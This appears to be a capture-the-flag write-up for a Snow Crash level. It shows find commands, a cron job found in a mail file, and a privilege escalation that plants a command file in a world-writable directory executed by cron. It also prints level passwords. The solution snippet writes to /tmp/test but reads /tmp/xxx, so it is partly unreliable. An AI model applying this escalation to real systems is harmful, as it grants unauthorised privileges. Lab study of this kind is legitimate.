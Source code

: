 # Solve Level05
pass : ne2searoevaevoem4ov4ar8ap


### Description
- ```(find / -user level05 -type f 2>/dev/null) | grep -v proc``` ==> only file : '/usr/sbin/openarenaserver'
- when we connect we have a message "You have a new mail."
  - on linux mails are in /var/mail/user
  - other way to find the mail ```(find / -type f -iname level* 2>/dev/null) | grep -v rof``` help to find `var/mail/level05`


### diggin on /var/mail/level05
- only this : `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
    - first part is a cron pattern telling "At every 2nd minute run su" ```man cron``` [crontab][fd1] [advices][fd2]
    - the cron calls openarenaserver as flag05

### /usr/sbin/openarenaserver
`-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver`
  - he execute each file in the folder `/opt/openarenaserver` with ```bash -x #x is tracing mode``` then remove the file
  - maybe we can put a file to execute in /opt/openarenaserver (the folder is set 777)


## Solution
```bash
echo "getflag > /tmp/test" > /opt/openarenaserver/test
# wait for cron job execution (2 minutes max)
cat /tmp/xxx
```

- no flag
- level06 : viuaaale9huek52boumoomioc


## Resolve problem
- be aware about cron job and all rights they can give ==> don't give write and execute to everybody

[fd1]: https://crontab.guru/crontab.5.html
[fd2]: https://serverfault.com/questions/449651/why-is-my-crontab-not-working-and-how-can-i-troubleshoot-it
